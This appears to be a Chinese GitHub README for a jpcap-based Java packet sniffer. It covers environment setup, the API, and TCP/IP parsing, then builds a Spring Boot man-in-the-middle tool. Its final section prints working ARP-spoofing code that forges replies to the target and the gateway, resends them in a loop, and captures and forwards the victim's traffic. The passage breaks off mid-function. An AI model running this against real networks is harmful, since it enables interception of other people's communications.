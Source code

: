 # network-sniffer
基于jpcap的网络嗅探器。

对于Java开发者来说，java.net包里面提供的类和接口提供是TCP UDP两种网络协议的支持，也就是说基于JDK的网络编程都是在**运输层**之上的。如果要深入到网络层，就需要libpcap库的支持（在window系统中是winpcap）。由于libpcap是由C/C++实现的，所以需要一个中间件jpcap来实现转换，我们就可以直接在Java环境中调用jpcap提供的API实现上述需求。

## 1. 环境配置

本人的实验环境:

* 操作系统：Mac OS 10.15.7
* Java版本：Oracle JDK 1.8

首先到tcpdump的[官网](http://www.tcpdump.org)上下载libpcap的latest release。

<img src="https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210315194948294.png" alt="image-20210315194948294" style="zoom: 67%;" />

解压后cd到解压目录中，分别执行以下命令：

```shell
./configure
make
make install
```

然后到`usr/local/lib`目录下就能找到名为`libpcap.dylib`文件，然后执行以下命令(MAC环境)将其绑定到Java的动态链接库：

```shell
export JAVA_LIBRARY_PATH=usr/local/lib
```

libpcap库安装结束。接下来安装jpcap，首先到https://github.com/jpcap/jpcap 下载源码包，再按以下指示完成步骤：（摘录自https://sites.google.com/site/sipinspectorsite/download/jpcap）

1. Both Java and libpcap are preinstalled on Mac OS X. 
   If any of them is missing you should be able to install them from the Mac OS X install DVD. 
2. Download and install [Xcode](http://developer.apple.com/tools/xcode/). 
   The default installation of Xcode should provide you with the toolchain required for compiling Jpcap.
3. Download and extract Jpcap source build. 
4. Go to ***'*****[Jpcap extracted directory]/src/c**' directory. 
5. Run '**make**'.
6. Copy '**libjpcap.jnilib**' to **'***/Library/Java/Extensions/*' directory. 
7. Copy *'**[Jpcap extracted directory]/******lib/\*jpcap.jar**' to '*/Library/Java/Extensions/*'
   Or, place '*jpcap.jar*' to any directory and include it to your CLASSPATH.

如果执行第5步失败了，也可以直接将本项目`resources`目录下的`libjpcap.jnilib`文件（windows下是dll文件）复制到`/Library/Java/Extensions/`目录下，再将`jpcap.jar`包复制到`jre/lib/ext`目录下让扩展类加载器加载，或者放到自己设定的类路径下由系统类加载器加载。

测试环境：

```java
NetworkInterface[] devices = JpcapCaptor.getDeviceList();
String[] names = new String[devices.length];
for (int i = 0; i < names.length; i++) {
	names[i] = (devices[i].description == null ? devices[i].name : devices[i].description);
	System.out.println(names[i]);
}
```

结果：打印出了所有网卡的名称：

```shell
en0
p2p0
awdl0
llw0
utun0
utun1
utun2
utun3
lo0
bridge0
en1
en2
gif0
stf0
XHC0
XHC20
```

至此前期环境搭建完成。



## 2. 熟悉API

由于官方API比较难找，因此我从网络上收集了一些API介绍放到此处。JPCAP中比较重要的4个类：

### NetworkInterface

该类的每一个实例代表一个网络设备，一般就是网卡。这个类只有一些数据成员，除了继承自java.lang.Object的基本方法以外，没有定义其它方法。

数据成员：

| 返回值类型                      | 名称                 | 描述                                                         |
| ------------------------------- | -------------------- | ------------------------------------------------------------ |
| java.lang.String                | datalink_description | 数据链路层的描述。描述所在的局域网是什么网。例如，以太网（Ethernet）、无线LAN网（wireless LAN）、令牌环网(token ring)等等。 |
| java.lang.String                | datalink_name        | 该网络设备所对应数据链路层的名称。具体来说，例如Ethernet10M、100M、1000M等等。 |
| java.lang.String                | description          | 网卡是XXXX牌子XXXX型号之类的描述。                           |
| boolean                         | Loopback             | 标志这个设备是否loopback设备。                               |
| byte[]                          | mac_address          | 网卡的MAC地址，6个字节。                                     |
| java.lang.String                | Name                 | 这个设备的名称。例如我的网卡名称：\Device\NPF_{3CE5FDA5-E15D-4F87-B217-255BCB351CD5} |
| jpcap.NetworkInterfaceAddress[] | addresses            | 设备IP地址（暂且这么理解）                                   |

### JpcapCaptor

该类提供了一系列静态方法来实现一些基本的功能。该类一个实例代表建立了一个与指定设备的链接，可以通过该类的实例来控制设备，例如设定网卡模式、设定过滤关键字等等。

数据成员：

| 返回值类型 | 名称             | 描述             |
| ---------- | ---------------- | ---------------- |
| int        | dropped_packets  | 抛弃的包的数目。 |
| int        | received_packets | 收到的包的数目。 |

成员方法：

| 返回值类型               | 方法名                                                       | 描述                                                         |
| ------------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| staticNetworkInterface[] | getDeviceList()                                              | 返回一个网络设备列表。                                       |
| staticJpcapCaptor        | openDevice(NetworkInterface interface, intsnaplen, booleanpromisc, intto_ms) | 创建一个与指定设备的连接并返回该连接。注意，以上两个方法都是静态方法。<br/><br/>Interface：要打开连接的设备的实例；<br/><br/>Snaplen：这个是比较容易搞混的一个参数。其实这个参数不是限制只能捕捉多少数据包，而是限制每一次收到一个数据包，只提取该数据包中前多少字节；<br/><br/>Promisc：设置是否混杂模式。处于混杂模式将接收所有数据包，若之后又调用了包过滤函数setFilter()将不起任何作用；<br/><br/>To_ms：这个参数主要用于processPacket()方法，指定超时的时间； |
| void                     | Close()                                                      | 关闭调用该方法的设备的连接，相对于openDivece()打开连接。     |
| JpcapSender              | getJpcapSenderInstance()                                     | 该返回一个JpcapSender实例，JpcapSender类是专门用于控制设备的发送数据包的功能的类。 |
| Packet                   | getPacket()                                                  | 捕捉并返回一个数据包。这是JpcapCaptor实例中四种捕捉包的方法之一。 |
| int                      | loopPacket(intcount, PacketReceiver handler)                 | 捕捉指定数目的数据包，并交由实现了PacketReceiver接口的类的实例处理，并返回捕捉到的数据包数目。如果count参数设为－1，那么无限循环地捕捉数据。<br/><br/>这个方法不受超时的影响。还记得openDivice()中的to_ms参数么？那个参数对这个方法没有影响，如果没有捕捉到指定数目数据包，那么这个方法将一直阻塞等待。<br/>PacketReceiver中只有一个抽象方法void receive(Packet p)。 |
| int                      | processPacket(intcount, PacketReceiver handler)              | 跟loopPacket()功能一样，唯一的区别是这个方法受超时的影响，超过指定时间自动返回捕捉到数据包的数目。 |
| int                      | dispatchPacket(intcount, PacketReceiverhandler)              | 跟processPacket()功能一样，区别是这个方法可以处于“non-blocking”模式工作，在这种模式下dispatchPacket()可能立即返回，即使没有捕捉到任何数据包。 |
| void                     | setFilter(java.lang.Stringcondition, booleanoptimize)        | condition：设定要提取的包的关键字。<br/><br/>Optimize：这个参数在说明文档以及源代码中都没有说明，只是说这个参数如果为真，那么过滤器将处于优化模式。 |
| void                     | setNonBlockingMode(booleannonblocking)                       | 如果值为“true”，那么设定为“non-blocking”模式。               |
| void                     | breakLoop()                                                  | 当调用processPacket()和loopPacket()后，再调用这个方法可以强制让processPacket()和loopPacket()停止。 |



### JpcapSender

该类专门用于控制数据包的发送。

成员方法：

| 返回值类型        | 方法名                    | 描述                                                         |
| ----------------- | ------------------------- | ------------------------------------------------------------ |
| void              | close()                   | 强制关闭这个连接。                                           |
| staticJpcapSender | openRawSocket()           | 这个方法返回的JpcapSender实例发送数据包时将自动填写数据链路层头部分。 |
| void              | sendPacket(Packet packet) | JpcapSender最重要的功能，发送数据包。需要注意的是，如果调用这个方法的实例是由JpcapCaptor的getJpcapSenderInstance()得到的话，需要自己设定数据链路层的头，而如果是由上面的openRawSocket()得到的话，那么无需也不能设置，数据链路层的头部将由系统自动生成。 |



### Packet

这个是所有其它数据包类的父类。Jpcap所支持的数据包有：
ARPPacket、DatalinkPacket、EthernetPacket、ICMPPacket、IPPacket、TCPPacket、UDPPacket



## 3.抓包测试

抓一个TCP包试试，编写Java程序：

开一个线程抓包：

```java
private void startCaptureThread() {
  if (captureThread != null)
    return;

  captureThread = new Thread(new Runnable() {
    public void run() {
      while (captureThread != null) {
        if (jpcap.processPacket(1, handler) == 0 && !isLive)
          stopCaptureThread();
        Thread.yield();
      }
      jpcap.breakLoop();
    }
  });
  captureThread.setPriority(Thread.MIN_PRIORITY);//设置线程优先级
  captureThread.start();
}
//停止捕获数据包
public void stopCaptureThread() {
  captureThread = null;
}
```

测试：

```java
@Test
public void test() throws InterruptedException {
  Captor captor = new Captor();
  //        String[] devices = captor.showDevice();
  captor.chooseDevice(0);
  captor.setFilter("tcp");//设置提取关键字
  captor.capturePackets();//抓包
  while(true){
    System.out.println("开始抓包");
    Thread.sleep(1000);
    List<Packet> packets = captor.getPackets();//提取数据包
    if(!packets.isEmpty()){
      for (Packet packet : packets) {//显示数据包内容
        System.out.println(captor.showPacket(packet));
      }
      break;
    }
  }
  System.out.println("抓包结束");
}
```

抓取成功，结果：

![image-20210315211433345](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210315211433345.png)



## 4.解析数据包

在第2节中介绍到：`Packet`是所有其它数据包类的父类。因此我们针对Packet编写一个抽象类`AbstractPacket`，规范一些各类数据包统一的操作。

```java
package com.hyc.packet;

import com.hyc.metadata.Layer;
import jpcap.packet.Packet;
import java.util.List;

/**
 * @author kol Huang
 * @date 2021/3/12
 */
public abstract class AbstractPacket {

    //数据包属于OSI模型的哪一层，默认为数据链路层。
    public Layer layer = Layer.DATALINK_LAYER;
    //协议名称
    private String protocolName;
    /**
     * 抽象方法：验证数据包是否属于某个子类
     * @param packet
     * @return
     */
    public abstract boolean verify(Packet packet);

    /**
     * 抽象方法：对数据包进行解析
     * @param packet
     */
    public abstract List<String> parse(Packet packet);

    public String getProtocolName() {
        return protocolName;
    }

    public void setProtocolName(String protocolName) {
        this.protocolName = protocolName;
    }
}

```



仍旧以TCP数据包解析为例。假设我们通过setFilter()过滤，然后抓到了一个TCP数据包packet。首先从数据链路层开始分析，下图分别是802标准以及以太网的帧结构。

![image-20210316183603904](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210316183603904.png)

在jpcap中，对以太网数据包的封装是`EthernetPacket`类，主要内容有以下几项：

1. 帧类型。标识以太帧处理完成之后将被发送到哪个上层协议进行处理。
2. MAC地址。

```java
public byte[] dst_mac;
public byte[] src_mac;
public short frametype;
```

我们就按上面这三个字段解析以太网帧。首先新建一个`Ethernet`类表示以太网帧，并继承`AbstractPacket`。在其中实现verify方法和parse方法。

jpcap为我们提供了以太网帧的封装类`EthernetPacket`，因此在verify方法中，我们只需判断当前的packet是否属于`EthernetPacket`类型即可。

```java
public boolean verify(Packet p){
  return p.datalink instanceof EthernetPacket;
}
```

在封装类`EthernetPacket`中，jpcap提供了若干方法用于访问数据包内容，我们就利用这些方法编写parse方法解析以太网帧：

```java
	public List<String> parse(Packet p){
		List<String> parsedData = new ArrayList<String>();
		if(!verify(p)) return null;
		//获取jpcap封装的数据链路packet
		ethp = (EthernetPacket)p.datalink;
		parsedData.add("Frame Type: "+ethp.frametype);
		parsedData.add("Source MAC Address: "+ethp.getSourceAddress());
		parsedData.add("Destination MAC Address: "+ethp.getDestinationAddress());
		return parsedData;
	}
```

解析结果：

![image-20210316193523892](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210316193523892.png)

接下来解析IP包。创建IPv4类，继承`AbstractPacket`，同样的思路，用jpcap封装好的`IPPacket`实现IPv4数据包的verify和parse方法。

```java
public boolean verify(Packet p){
  return p instanceof IPPacket && ((IPPacket) p).version == 4;
}
```

```java
public List<String> parse(Packet packet){
		List<String> parsedData = new ArrayList<String>();

		if(!verify(packet)) return null;
		final IPPacket ipv4p = (IPPacket)packet;
		parsedData.add("Version: 4");
		parsedData.add("Priority: "+ipv4p.priority);
		parsedData.add("Throughput: "+ipv4p.t_flag);
		parsedData.add("Reliability: "+ipv4p.r_flag);
		parsedData.add("Length: "+ipv4p.length);//数据报长度，单位是字节
		parsedData.add("Identification: "+ipv4p.ident);
		parsedData.add("Don't Fragment: "+ipv4p.dont_frag);//不对数据报进行分片
		parsedData.add("More Fragment: "+ipv4p.more_frag);//除了最后一片外，其他每个组成数据报的片都要把该比特置1。 
		parsedData.add("Fragment Offset: "+ipv4p.offset);//数据报的偏移量
		parsedData.add("Time To Live: "+ipv4p.hop_limit);//TTL
		parsedData.add("Protocol: "+ipv4p.protocol);//协议字段
		parsedData.add("Source IP: "+ipv4p.src_ip.getHostAddress());
		parsedData.add("Destination IP: "+ipv4p.dst_ip.getHostAddress());
		parsedData.add("Source Host Name: "+ipv4p.src_ip.getHostName());
		parsedData.add("Destination Host Name: "+ipv4p.dst_ip.getHostName());
		return parsedData;
	}
```

IP数据报的内容众多，结构如下：

![image-20210316192859961](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210316192859961.png)

解析结果：

![image-20210316193546007](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210316193546007.png)

最后解析TCP报文段。jpcap对TCP报文段的封装类是`TCPPacket`，TCP报文段结构如下所示：

![image-20210316194225746](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210316194225746.png)

```java
public boolean verify(Packet p){
		return p instanceof TCPPacket;
	}
	
	public String getProtocolName(){
		return "TCP";
	}
	
	public List<String> parse(Packet p){
		List<String> parsedData = new ArrayList<String>();

		if(!verify(p)) return null;

		TCPPacket tcp = (TCPPacket)p;

		parsedData.add("Source Port: "+tcp.src_port);
		parsedData.add("Destination Port: "+tcp.dst_port);
		parsedData.add("Sequence Number: "+tcp.sequence);
		parsedData.add("Ack Number: "+tcp.ack_num);
		parsedData.add("URG Flag: "+tcp.urg);
		parsedData.add("ACK Flag: "+tcp.ack);
		parsedData.add("PSH Flag: "+tcp.psh);
		parsedData.add("RST Flag: "+tcp.rst);
		parsedData.add("SYN Flag: "+tcp.syn);
		parsedData.add("FIN Flag: "+tcp.fin);
		parsedData.add("Window Size: "+tcp.window);

		return parsedData;
	}
```

TCP报文段应该非常熟悉了，不再解释。解析结果如下：

![image-20210316194333948](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210316194333948.png)

至此一个TCP报文段解析完毕。

再按同样的方法编写ARP、IPv6、UDP、HTTP等常见协议，就能基本实现抓包和解析功能。



## 5. 局域网数据嗅探

大致了解了JPCAP的使用方式后，我打算参考[项目](https://github.com/hustakin/jpcap-mitm)开发基于局域网嗅探实现点对点MITM攻击的WEB项目（前后端分离），实现：

1. 局域网ARP Spoofing；
2. 嗅探指定终端的上/下行链路数据包；
3. 数据包内容分析及前端可视化。

前端我直接采用了该项目的前端模块（Angular6 + Echarts），此项目实现了前后端分离，因此我只需要编写后端模块为前端接口提供JSON数据即可，该前端模块的接口调用方式如下：

![image-20210323210343382](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210323210343382.png)





### 5.1 替换Dao

该[项目](https://github.com/hustakin/jpcap-mitm)采用MongoDB作为数据存储引擎，我将其更换成了Redis。如果我们使用默认的`Redis`配置，由于springboot只提供了`RedisTemplate<Object, Object>`和`StringRedisTemplate`两种模版，因此只支持`string`类型的序列化器。但是我们需要将对象序列化到redis中，所以需要自定义`redisTemplate`，并配置序列化器。

在Springboot 2.x中将默认的Redis客户端更换为`lettuce`，因此在配置`redis`的时候需要格外注意。`lettuce`的自定义方式与`jedis`有些不同，首先在`config`包下创建`RedisConfig`类，该类需继承`CachingConfigurerSupport`类。然后编写方法注入Bean到IOC容器中：

```java
/**
 * 实例化 RedisTemplate 对象
 *
 * @return
 */
@Bean(name = "redisTemplate")
public RedisTemplate<String, Object> redisTemplate(RedisConnectionFactory redisConnectionFactory) {
  RedisTemplate<String, Object> redisTemplate = new RedisTemplate<>();
  redisTemplate.setConnectionFactory(redisConnectionFactory);
  //配置序列化方式
  //JSON序列化配置
  Jackson2JsonRedisSerializer jackson2JsonRedisSerializer = new Jackson2JsonRedisSerializer(Object.class);
  redisTemplate.setKeySerializer(new StringRedisSerializer());
  redisTemplate.setHashKeySerializer(new StringRedisSerializer());
  redisTemplate.setHashValueSerializer(new GenericJackson2JsonRedisSerializer());
  redisTemplate.setValueSerializer(jackson2JsonRedisSerializer);//设置value的序列化器为jackson，这样能够保证对象被成功序列化
  redisTemplate.afterPropertiesSet();
  return redisTemplate;
}
```

**需要注意的是：被序列化的类需要实现`Serializable`接口。**

完成以上步骤就能直接通过IOC容器获取自定义的`redisTemplate`模版了。我们将其封装到`RedisMapper`类中，统一处理`dao`的各种操作。

```java
/**
 * @author kol Huang
 * @date 2021/3/22
 */
@Component
public class RedisMapper {

    @Resource
    @Qualifier("redisTemplate")
    private RedisTemplate<String, Object> redisTemplate;

    public void setRedisTemplate(RedisTemplate<String, Object> redisTemplate) {
        this.redisTemplate = redisTemplate;
    }

    /**
     * 普通缓存获取
     * @param key 键
     * @return 值
     */
    public Object get(KeyPrefix prefix, String key){
        String realKey = prefix.getPrefix().concat(key);
        return redisTemplate.opsForValue().get(key);
    }

    /**
     * 普通缓存放入
     * @param key 键
     * @param value 值
     * @return true成功 false失败
     */
    public boolean set(KeyPrefix prefix, String key,Object value) {
        try {
            String realKey = prefix.getPrefix().concat(key);
            redisTemplate.opsForValue().set(realKey, value);
            return true;
        } catch (Exception e) {
            e.printStackTrace();
            return false;
        }

    }

    /**
     * 普通缓存放入并设置时间
     * @param key 键
     * @param value 值
     * @param time 时间(秒) time要大于0 如果time小于等于0 将设置无限期
     * @return true成功 false 失败
     */
    public boolean set(KeyPrefix prefix, String key,Object value,long time){
        try {
            if(time > 0){
                String realKey = prefix.getPrefix().concat(key);
                redisTemplate.opsForValue().set(realKey, value, time, TimeUnit.SECONDS);
            }else{
                set(prefix, key, value);
            }
            return true;
        } catch (Exception e) {
            e.printStackTrace();
            return false;
        }
    }

    /**
     * 删除缓存
     * @param key 可以传一个值或多个
     */
    public void del(KeyPrefix prefix, String ... key){
        if(key != null && key.length > 0){
            if(key.length == 1){
                String realKey = prefix.getPrefix().concat(key[0]);
                redisTemplate.delete(realKey);
            }else{
                //加前缀
                Collection<String> keys = new ArrayList<>();
                for (String s : key) {
                    keys.add(prefix.getPrefix().concat(s));
                }
                redisTemplate.delete(keys);
            }
        }
    }

}

```

### 5.2 AttackConfig

由于ARP spoof的需求，我们需要获取到以下信息：

* 本地IP/MAC地址
* 目标IP/MAC地址
* 网关IP/MAC地址

因此我们将以上信息封装到一个配置类中，即`AttackConfig`。这些配置信息中的`本地IP/MAC地址`信息可以在web项目初始化的时候就自动从设备上获取，因此我们在`AttackService`类（位于`service`层）中编写初始化方法：

```java
@PostConstruct
public void initDefaultConfig(){
  this.initDeviceList();

  AttackConfig config = (AttackConfig) redisMapper.get(AttackKey.config, "config");
  if(config == null){
    ...

      //获取本地IP和MAC地址
      Map<String, String> addrs = NetworkUtils.getLocalAddress();
    if(addrs == null){
      addrs = NetworkUtils.getPublicAddress();
    }
    if(addrs != null){
      srcIP = addrs.get("ip");
      srcMAC = addrs.get("mac");
    }else{
      logger.error("can not acquire source IP/MAC address");
    }
    config = new AttackConfig();
    config.setDeviceName(null);
    ...
      config.setGateMac(gateMAC);
    config.setGateIP(gateIP);
    redisMapper.set(AttackKey.config, "config", config);
  }

}
```

在方法上加`@PostConstruct`注解可以让这个方法在web容器启动并初始化Servlet的时候被执行，在Spring IOC容器中是通过`CommonAnnotationBeanPostProcessor`实现的。通常我们会是在Spring框架中使用到@PostConstruct注解 该注解的方法在整个Bean初始化中的执行顺序：

`Constructor`(构造方法) -> `@Autowired`(依赖注入) -> `@PostConstruct`(注释的方法)

### 5.3 获取网卡列表

编写`AttackController`，获取网卡列表，并序列化返回给前端。

```java
/**
 * @author kol Huang
 * @date 2021/3/22
 */
@Controller
@RequestMapping("attack")
public class AttackController {

    @Autowired
    private AttackService attackService;

    @GetMapping(value = "/getDeviceList")
    @ResponseBody
    public List<NetWorkInterface> getDeviceList(){
        List<NetWorkInterface> devices = new ArrayList<>();
        NetworkInterface[] interfaces = attackService.getDevices();
        if(interfaces != null){
            for (NetworkInterface networkInterface : interfaces) {
                NetWorkInterface ni = new NetWorkInterface();
                ni.setName(networkInterface.name);
                ni.setDescription(networkInterface.description);
                ni.setDataLinkName(networkInterface.datalink_name);
                ni.setDataLinkDescription(networkInterface.datalink_description);
                devices.add(ni);
            }
        }
        return devices;
    }
}

```



启动项目，发起请求：`http://localhost:8081/attack/getDeviceList`，结果如下

![image-20210323214332832](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210323214332832.png)



### 5.4 接口对接测试

既然已经编写好了一个接口，那么我们就尝试着跟前端模块对接一下，防止项目庞大后对接问题的堆积。

修改前端模块的`attack.service.ts`文件，将`/getDeviceList`请求路径改写成我们自己的请求路径：

![image-20210324204211899](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210324204211899.png)

分别启动angular项目和springboot项目，注意：这里应当用`proxy`的方式启动前端项目，将`localhost:8081`作为代理处理请求。

![image-20210324204458217](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210324204458217.png)

结果：前端成功获取并显示了所有网卡名称。

![image-20210324204611650](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210324204611650.png)



### 5.5 攻击核心代码

此项目的其中一个核心功能就是对抓取的网络数据包进行一系列操作，如分组、拼接、解压、还原等。所以就不再描述其他细节问题，重点讲讲上述核心功能的实现。

首先，在前端页面上初次填写攻击配置信息（srcIP, dstIP, gateIP等）后，点击setup configs按钮，后端会接收到一个路径为`attack/updateConfigAndOpenDevice`的请求。随即根据表单的数据更新攻击配置信息（存入redis），然后根据配置信息选择网卡，并调用以下两个来自Jpcap包的方法打开网卡设备：

```java
public static jpcap.JpcapCaptor openDevice(jpcap.NetworkInterface intrface, int snaplen, boolean promisc, int to_ms) throws java.io.IOException
public jpcap.JpcapSender getJpcapSenderInstance()
```

然后等待前端下达指令就开始抓包。

![image-20210325192544852](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210325192544852.png)

这里遇到了一个问题，我在使用redisTemplate从redisget配置信息的时候报错，如下：

```shell
java.lang.ClassCastException: java.util.LinkedHashMap cannot be cast to com.XXX.XXX.xxClass
```

从redis反序列化出来的时候，所有的对象都变成了LinkedHashMap。

查了资料，原因是：在配置redisconfig的时候，我定义的MyObjectMapper没有配置`DefaultTyping`属性，jackson将使用简单的数据绑定具体的java类型，其中Object就会在反序列化的时候变成LinkedHashMap。如何解决呢？

解决办法就是在get之后用`ObjectMapper`来转换：

```java
public Object get(KeyPrefix prefix, String key, Class<?> clazz){
  String realKey = prefix.getPrefix().concat(key);
  ObjectMapper mapper = new ObjectMapper();
  return mapper.convertValue(redisTemplate.opsForValue().get(realKey), clazz);
}
```

但是问题应该是出在`RedisConfig`的配置中，先不处理它。

#### 5.5.1 伪装

接下来开始编写攻击代码，攻击走的请求路径是`/attack/startAttack`，所以我们在`AttackController`中编写攻击的代码：

```java
@GetMapping("/startAttack")
@ResponseBody
public ResultDTO startAttacking(){
  logger.info("start attacking");
  attackService.attack();
  return new ResultDTO(true);
}
```

去调用Service层的`attack`方法执行攻击流程。

首先是创建用于spoofing的ARP包：

1. 创建一个ARP包发送给目标主机，将自己伪装成网关；
2. 创建一个ARP包发送给网关，将自己伪装成目标主机。

```java
public synchronized void attack(){
  //当前处于攻击状态，说明已经有线程在攻击了，所以当前线程直接返回
  if(attacking)   return;
  attacking = true;

  startAttackTimeStamp = new Date();//记录当前时间
  //为了方便统计数据，我们为每次攻击都设置一个批次ID，即batchId
  //这个batchId需要是自增的，如何获取一个自增的batchId呢？
  //那就还从redis里取，但是这个batchId必须跟每次攻击的数据包对应好，否则就乱了
  //OK，那我们就在初始化Servlet的时候，就在Redis里设置一个存id的键，如果不存在，那就创建一个，具体操作见方法initBatchId
  batchId = (Integer) redisMapper.get(CommonKey.COMMON_KEY, "batch_id", Integer.class);
  //这里没考虑并发修改redis的batchId的问题，因为同一时间只有一个线程会执行攻击方法
  //因为AttackService默认是单例的，锁上之后，别的线程也没法调用attack方法，也就不会并发修改batchId
  //但是仍旧是线程不安全的，如果要实现线程安全，可以选择加分布式锁，即执行redis的set lock:batchid true ex 5 nx
  //这里就不实现了
  batchId++;

  //设置ARP包欺骗目标主机，将自己伪装成网关
  ARPPacket arpToDst = createARPPacket(srcMACBT, gateIPIA.getAddress(), dstMACBT, dstIPIA.getAddress());


  //设置ARP包欺骗网关，假装自己是目标主机，因此源IP地址需要改成攻击目标的IP地址，但是MAC地址修改成本地主机的MAC地址
  //这样就能让网关认为本地主机的MAC地址是攻击目标的MAC地址，进而将需要发到目标主机的数据包通过ARP表发到本地主机的网卡上
  ARPPacket arpToGate = createARPPacket(srcMACBT, dstIPIA.getAddress(), gateMACBT, gateIPIA.getAddress());

	...
}
```

创建ARP包的方法如下：

```java
private ARPPacket createARPPacket(byte[] sHardAddr, byte[] sProtoAddr,byte[] tHardAddr, byte[] tProtoAddr){
  ARPPacket arpPacket = new ARPPacket();
  arpPacket.hardtype = ARPPacket.HARDTYPE_ETHER;
  arpPacket.prototype = ARPPacket.PROTOTYPE_IP;
  arpPacket.operation = ARPPacket.ARP_REPLY;//设置操作类型为应答
  arpPacket.hlen = 6;//硬件地址长度
  arpPacket.plen = 4;//协议类型长度
  arpPacket.sender_hardaddr = sHardAddr;//发送端MAC地址
  arpPacket.sender_protoaddr = sProtoAddr;//发送端IP地址
  arpPacket.target_hardaddr = tHardAddr;//目标MAC地址
  arpPacket.target_protoaddr = tProtoAddr;//目标IP地址

  //定义以太网首部
  EthernetPacket ethernetPacket = new EthernetPacket();
  ethernetPacket.frametype = EthernetPacket.ETHERTYPE_ARP;//设置帧类型为ARP帧
  ethernetPacket.src_mac = sHardAddr;//源MAC地址
  ethernetPacket.dst_mac = tHardAddr;//目标MAC地址
  //添加以太网首部
  arpPacket.datalink = ethernetPacket;
  return arpPacket;
}
```



#### 5.5.2 欺骗

伪装包已经创建好了，那就开始欺骗吧。原项目中直接`new`线程发包了，我改一下，我用线程池。

```java
//使用线程池
private static final int CORE_POOL_SIZE = 5;//核心线程数
private static final int MAXIMUM_POOL_SIZE = 10;//最大线程数
private static final long KEEP_ALIVE_TIME = 1L;//空闲保活时间
private static final TimeUnit UNIT = TimeUnit.MILLISECONDS;//时间单位
private static final int QUEUE_CAPACITY = 5;//任务队列最大长度
static ThreadPoolExecutor executor = new ThreadPoolExecutor(
  CORE_POOL_SIZE,
  MAXIMUM_POOL_SIZE,
  KEEP_ALIVE_TIME,
  UNIT,
  new ArrayBlockingQueue<>(QUEUE_CAPACITY),//有界阻塞队列
  new ThreadPoolExecutor.CallerRunsPolicy()//饱和策略选择调用线程帮忙的策略
);
```

发包：

```java
//主线程调用方法，子线程发包
sendPacket(arpToDst, arpToGate);


private void sendPacket(Packet packet1, Packet packet2){
  Runnable task = new Runnable() {
    @Override
    public void run() {
      while(attacking){
        try{
          if(sender != null && attacking){
            sender.sendPacket(packet1);
          }
          if(sender != null && attacking){
            sender.sendPacket(packet2);
          }
          //控制发包的速度
          Thread.sleep(500);
        } catch (Throwable e) {
          logger.error("Unknown error occur in send thread, ", e);
        }
      }
    }
  };
  executor.execute(task);
}
```

发完包之后，就可以准备接收并转发包，因为网关和目标主机会响应这些ARP请求。

我们在配置攻击参数的时候，设置了`filterDomains`参数，即我们只抓取与这些域名相关的数据包。所以我们从网卡拿包的时候，需要进行过滤。过滤完之后，针对数据包的不同类型执行不同的转发操作：

* 如果是上行链路，转发到网关
* 如果是下行链路，转发到目标主机

同时将数据包按批次号保存到redis，以便后续分析。

```java
private void receiveAndForwardingPacket(){
  Runnable task = new Runnable() {
    @Override
    public void run() {
      while(attacking){
        try{
          //接收数据包
          Packet packet = captor.getPacket();
          if(packet != null && packet != Packet.EOF){
            //检查是否是IP包
            if(packet instanceof IPPacket){
              IPPacket ipPacket = (IPPacket) packet;
              //数据包属于filterDomain
              if(isRelatedToSpecificDomains(ipPacket.src_ip.getHostAddress())
                 || isRelatedToSpecificDomains(ipPacket.dst_ip.getHostAddress())){
                //将数据包转发到目标主机并保存到数据库

                //如果这个数据包的源IP地址是目标主机的IP地址，那么说明是上行链路的数据包
                if(ipPacket.src_ip.getHostAddress().equals(config.getDestIp())){
                  //如果这个数据包的源MAC地址是本地主机的MAC地址，说明这是我自己发送的攻击数据包，需要忽略
